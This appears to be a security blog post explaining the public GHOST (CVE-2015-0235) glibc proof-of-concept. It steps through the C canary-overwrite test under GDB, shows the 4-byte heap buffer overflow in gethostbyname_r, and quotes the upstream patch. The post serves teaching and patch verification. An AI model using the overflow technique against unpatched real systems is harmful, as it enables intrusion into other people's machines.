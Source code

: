```yaml
---
layout: post
title: CVE-2015-0235 GHOST PoC Explained
category: Exploitation
tags: Exploitation, PoC
---
```


In this post we will go over the GHOST PoC under a debugger. This will visually show how the buffer overflow condition is met.

{% highlight C linenos %}
#include <netdb.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CANARY "in_the_coal_mine"

struct {
	char buffer[1024];
	char canary[sizeof(CANARY)];
} temp = { "buffer", CANARY };

int main(void) {
	struct hostent resbuf;
        struct hostent *result;
	int herrno;
	int retval;

	/*** strlen (name) = size_needed - sizeof (*host_addr) - sizeof (*h_addr_ptrs) - 1; ***/
	size_t len = sizeof(temp.buffer) - 16*sizeof(unsigned char) - 2*sizeof(char *) - 1;
	char name[sizeof(temp.buffer)];
	memset(name, '0', len);
	name[len] = '\0';

	retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);

	if (strcmp(temp.canary, CANARY) != 0) {
		puts("vulnerable");
		exit(EXIT_SUCCESS);
	}
	if (retval == ERANGE) {
		puts("not vulnerable");
		exit(EXIT_SUCCESS);
	}
	puts("should not happen");
	exit(EXIT_FAILURE);
}
{% endhighlight %}
Let me explain some of the above code.
First we define a CANARY, "in_the_coal_mine". This is our overwrite target.
Next we define a struct, which consists of two chunks. These chunks represent a buffer that will be overflowed by the glibc gethostbyname_r function, and the data that comes after it (the CANARY).
The first chunk is named "buffer" and its size is 1024 bytes, which is the size that will be passed to gethostbyname_r via the "buflen" argument.
Following the "buffer" chunk is the CANARY chunk. By overflowing the "buffer" chunk into the CANARY chunk, we can confirm the PoC exploit works.
Now that we have defined our struct representing the buffer for gethostname_r, the name char array is being initialized with 999 bytes of ASCII ‘0’ / HEX 0x30.

>**name**  
>*The name of the Internet host whose entry you want to find.*  
>**result**  
>*A pointer to a struct hostent where the function can store the host entry.*  
>**buffer**  
>*A pointer to a buffer that the function can use during the operation to store host database entries; buffer should be large enough to hold all of the data associated with the host entry. A 2K buffer is usually more than enough; a 256-byte buffer is safe in most cases.*  
>**buflen**  
>*The length of the area pointed to by buffer.*  
>**h_errnop**  
>*A pointer to a location where the function can store an herrno value if an error occurs.*  

Now, let's see the binary under GDB debugger.

{% highlight bash linenos %}
$ gdb -q ./GHOST 
Reading symbols from /home/student/GHOST...done.
(gdb) break main
Breakpoint 1 at 0x80484a2: file ghost.c, line 14.
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/student/GHOST 

Breakpoint 1, main () at ghost.c:14
14int main(void) {
(gdb) disas
Dump of assembler code for function main:
   0x08048494 <+0>:push   ebp
   0x08048495 <+1>:mov    ebp,esp
   0x08048497 <+3>:push   edi
   0x08048498 <+4>:push   esi
   0x08048499 <+5>:and    esp,0xfffffff0
   0x0804849c <+8>:sub    esp,0x450
=> 0x080484a2 <+14>:mov    eax,gs:0x14
   0x080484a8 <+20>:mov    DWORD PTR [esp+0x44c],eax
   0x080484af <+27>:xor    eax,eax
   0x080484b1 <+29>:mov    DWORD PTR [esp+0x44],0x3e7
   0x080484b9 <+37>:mov    eax,DWORD PTR [esp+0x44]
   0x080484bd <+41>:mov    DWORD PTR [esp+0x8],eax
   0x080484c1 <+45>:mov    DWORD PTR [esp+0x4],0x30
   0x080484c9 <+53>:lea    eax,[esp+0x4c]
   0x080484cd <+57>:mov    DWORD PTR [esp],eax
   0x080484d0 <+60>:call   0x80483c0 <memset@plt>
   0x080484d5 <+65>:lea    eax,[esp+0x4c]
   0x080484d9 <+69>:add    eax,DWORD PTR [esp+0x44]
   0x080484dd <+73>:mov    BYTE PTR [eax],0x0
   0x080484e0 <+76>:lea    eax,[esp+0x4c]
   0x080484e4 <+80>:lea    edx,[esp+0x40]
   0x080484e8 <+84>:mov    DWORD PTR [esp+0x14],edx
   0x080484ec <+88>:lea    edx,[esp+0x3c]
   0x080484f0 <+92>:mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:lea    edx,[esp+0x28]
   0x08048508 <+116>:mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:mov    DWORD PTR [esp],eax
   0x0804850f <+123>:call   0x80483d0 <gethostbyname_r@plt>
   0x08048514 <+128>:mov    DWORD PTR [esp+0x48],eax
   0x08048518 <+132>:mov    edx,0x804a440
   0x0804851d <+137>:mov    eax,0x8048660
   0x08048522 <+142>:mov    ecx,0x11
   0x08048527 <+147>:mov    esi,edx
   0x08048529 <+149>:mov    edi,eax
   0x0804852b <+151>:repz cmps BYTE PTR ds:[esi],BYTE PTR es:[edi]
---Type <return> to continue, or q <return> to quit---q
Quit
(gdb)
{% endhighlight %}
Lines 24-28, are where memset initializes name char array with 999 bytes of '0'. Line 31, name char array is being null terminated. Lines 36-41, is where the arguments for gethostbyname_r are being pushed to the stack, right to left. After the gethostbyname_r function, on lines 44-49 is where strcmp confirms if the CANARY has been modified or not.  
Let's set a breakpoint before the gethostbyname function and inspect the temp stuct.
{% highlight bash linenos %}
(gdb) break *main+123
Breakpoint 3 at 0x804850f: file ghost.c, line 25.
(gdb) c
Continuing.

Breakpoint 3, 0x0804850f in main () at ghost.c:25
25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
=> 0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
...
(gdb) print temp
$4 = {buffer = "buffer", '\000' <repeats 1017 times>, canary = "in_the_coal_mine"}
(gdb) 

(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 "buffer"
0x804a047 <temp+7>:	 ""
0x804a048 <temp+8>:	 ""
...
...
...
0x804a43d <temp+1021>:	 ""
0x804a43e <temp+1022>:	 ""
0x804a43f <temp+1023>:	 ""
0x804a440 <temp+1024>:	 "in_the_coal_mine"
{% endhighlight %}

As you can see, the content of temp is of two buffers named "buffer" and "canary". Content of Buffer is the name of the buffer "buffer" which is 6 bytes + 1017 bytes of '0' characters + null terminating byte = 1024 bytes. CANARY starts at memory location 0x804a440 or 1024 bytes within the temp struct, and it's content is as initialized "in_the_coal_mine".  
Now let's move 1 instruction down, past the gethostbyname_r function and inspect the temp struct again.
{% highlight bash linenos %}
(gdb) nexti
0x08048514	25	  retval = gethostbyname_r(name, &resbuf, temp.buffer, sizeof(temp.buffer), &result, &herrno);
(gdb) disas
Dump of assembler code for function main:
...
   0x080484f0 <+92>:	mov    DWORD PTR [esp+0x10],edx
   0x080484f4 <+96>:	mov    DWORD PTR [esp+0xc],0x400
   0x080484fc <+104>:	mov    DWORD PTR [esp+0x8],0x804a040
   0x08048504 <+112>:	lea    edx,[esp+0x28]
   0x08048508 <+116>:	mov    DWORD PTR [esp+0x4],edx
   0x0804850c <+120>:	mov    DWORD PTR [esp],eax
   0x0804850f <+123>:	call   0x80483d0 <gethostbyname_r@plt>
=> 0x08048514 <+128>:	mov    DWORD PTR [esp+0x48],eax
...
(gdb) print temp
$5 = {buffer = '\000' <repeats 16 times>, "@\240\004\b\000\000\000\000\000\000\000\000", '0' <repeats 996 times>, canary = "000\000he_coal_mine"}
(gdb) 
(gdb) x/1024s 0x804a040
0x804a040 <temp>:	 ""
0x804a041 <temp+1>:	 ""
...
...
0x804a05c <temp+28>:	 '0' <repeats 200 times>...
0x804a124 <temp+228>:	 '0' <repeats 200 times>...
0x804a1ec <temp+428>:	 '0' <repeats 200 times>...
0x804a2b4 <temp+628>:	 '0' <repeats 200 times>...
0x804a37c <temp+828>:	 '0' <repeats 199 times>
0x804a444 <temp+1028>:	 "he_coal_mine"
{% endhighlight %}
What this shows us is that now, the temp.buffer is 1028 bytes. 4 bytes from temp.buffer chunk has overflowed into the temp.canary chunk. If we inspect the 0x804a440 address, which use to be the start of the CANARY chunk, we should see the overflowed bytes followed by terminating null char.

{% highlight bash linenos %}
(gdb) x/s 0x804a440
0x804a440 <temp+1024>:	 "000"
(gdb) 
{% endhighlight %}

## The patch
As noted by Qualys in their report, the vulnerable code in the function is in nss/digits_dots.c. The patch mainly consists of adding 4 bytes to the size_needed object.

{% highlight bash linenos %}
vi nss/digits_dots.c

From this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name) + 1);

To this:
  105:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);

  277:  size_needed = (sizeof (*host_addr)
		+ sizeof (*h_addr_ptrs) + strlen (name)
		+ sizeof (*h_alias_ptr) + 1);
{% endhighlight %}

This adds the 4 missed bytes that cause the overflow from the first chunk to the next chunk. Now if we add this to the calculation of the "size_t len" from the above PoC code, instead of 999 bytes the name char array buffer will be 995 and the overflow will not work.

### Reference
* [Qualys report](https://www.qualys.com/research/security-advisories/GHOST-CVE-2015-0235.txt?_ga=1.220525848.141431497.1428700623)
* [Stackoverflow](http://stackoverflow.com/questions/28258135/manually-patching-for-ghost-vulnerability-on-legacy-server)


